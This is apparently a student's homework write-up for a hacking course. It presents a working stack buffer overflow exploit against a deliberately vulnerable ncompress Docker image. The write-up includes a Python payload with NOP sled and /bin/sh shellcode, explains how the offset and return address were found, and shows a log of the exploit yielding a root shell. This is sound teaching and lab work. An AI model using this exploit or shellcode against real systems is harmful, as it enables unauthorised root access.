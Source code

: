 # Homework #0

Topics: Github & Actions, Docker, Python, Bash, Buffer Overflows

# Write up of our first exploit (25 Points)
-My exploit is the following:
--------------------------------------------------------------------------------
import sys
import struct

payload = b""
payload += b"\x90" * 1000
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload += b"\x90" * 16 
payload += struct.pack("<I", 0xffffc9dc+ 1000) *30

sys.stdout.buffer.write(payload)
--------------------------------------------------------------------------------

I concluded from the source code (the input path is 1024 bytes long) that the buffer is 1024 bytes long. From gdb and testing i concluded that the return address is overwritten after 1068 bytes (buffer plus other stuff). So I added nearly this many bytes as a nop sled, then added the shellcode and some more nop sleds (the code didn't seem to work otherwise). Then I added the address of the return address many times to compensate if the memory addresses "move" a bit. That's the same reason I have added the return address earlier than the 1068 bytes needed offset that I found.
The return address was found using 'sudo dmesg' to inspect where the stack pointer was when the segfault occured. I then found (with trial and error) that 1000 bytes where sufficient to get me to the nop sled, leading to execution of my shellcode. I have tested this and it works in multiple instances.


--------------------------------------------------------------------------------
A successful invocation:
--------------------------------------------------------------------------------

~/Documents/hack_intro/erg1/hw0-KStamoulis$ docker run --rm --privileged -v `pwd`/exploit.py:/exploit.py -it ethan42/ncompress:vulnerable
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

ubuntu@0d9b8c1aa83d:~$ echo hello | ncompress
��hʰa�Fubuntu@0d9b8c1aa83d:~$ python3 /exploit.py > /tmp/payload
ubuntu@0d9b8c1aa83d:~$ whoami
ubuntu
ubuntu@0d9b8c1aa83d:~$ ncompress `cat /tmp/payload`
����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin����°
                      1�@̀����������������������������������������������������������������������������������������������������������������������������������������: File name too long
# whoami
root
# exit
ubuntu@0d9b8c1aa83d:~$ 

--------------------------------------------------------------------------------